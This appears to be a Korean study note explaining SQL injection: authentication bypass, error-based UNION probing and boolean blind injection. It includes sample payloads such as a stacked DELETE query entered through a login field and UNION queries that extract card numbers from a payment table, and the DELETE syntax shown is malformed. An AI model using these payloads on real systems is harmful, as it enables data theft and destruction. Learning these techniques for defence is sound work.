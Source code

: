 ### SQL Injection

이용자의 입력값이 SQL 구문의 일부로 사용될 경우, 해커에 의해 조작된 SQL 구문이 데이터베이스에 그대로 전달되어 비정상적인 DB 명령을 실행시키는 공격 기법이다.

- 클라이언트와 서버가 입력값에 대한 검증이 제대로 이루어 지지 못하는 경우에 발생함

### 쿼리 조건 무력화(Where 구문 우회)

#### 인증우회

로그인 폼(Form)을 대상으로 공격을 수행한다. 정상적인 계정 정보 없이도 로그인을 우회하여 인증을 획득

- 로그인 ID로 입력 값 `1234'; DELETE * USER FROM ID = '1'; --`
- WHERE 싱글쿼터로 닫고 ;로 쿼리문 종료후 새로운 쿼리문 입력
- 최초생성한 계정이 관리자 계정일 떄 관리자계정 삭제됨

```sql
SELECT * FROM USER WHERE ID = 'abc' AND PASSWORD = '1234';
SELECT * FROM USER WHERE ID = '1234'; DELETE * USER FROM ID = '1'; --' AND PASSWORD = '1234';
```

#### 고의적 에러 유발후 정보 획득

시스템에서 발생하는 에러 메시지를 이용해 공격하는 방법으로 에러를 통하여 데이터베이스 구조를 유추하여 해킹에 활용

- 로그인 ID로 입력 값 `test' UNION SELECT 1 --`
- 에러메세지 표시: "UNION, INTERSECT 또는 EXCEPT 연산자를 사용하여 결합된 모든 쿼리의 대상 목록에는 동일한 개수의 식이 있어야 합니다."

```sql
Select * From Users Where UserID = 'test' UNION SELECT 1 -- And Password='1234';
```

- 위 에러메세지를 토대로 대상 목록을 늘림
- 로그인 ID로 입력 값 `test' UNION SELECT 1,1,1,1 --`
- 에러메세지 표시안됨 => Users 테이블의 컬럼이 4개인것을 알 수 있음

```sql
Select * From Users Where UserID = 'test' UNION SELECT 1,1,1,1 -- And Password='1234';
```

- 로그인 ID로 입력 값 `test' UNION SELECT UserID, CardNo, 1, 1 FROM PaymentLog -- And Password='아무거나'-`
- 결제로그가 담긴 PaymentLog 테이블 정보를 획득

```sql
Select * From Users Where UserID = 'test' UNION SELECT UserID, CardNo, 1, 1 FROM PaymentLog -- And Password='아무거나'
```

### Blind SQL 인젝션

쿼리 결과의 참/거짓으로부터 DB값을 유출해 내는 기법

#### Boolean-based Blind 공격

AND 조건에 논리식을 대입하여 참/거짓 여부를 알아내는 방식

- 게시판 제목검색 입력값 `hello' AND 1=1--`, `hello' AND 1=2--`
- `hello' AND 1=1--` -> 검색됨 -> hello검색어를 참으로 간주
- `hello' AND 1=2--` -> 검색안됨 -> hello검색어를 참으로 간주
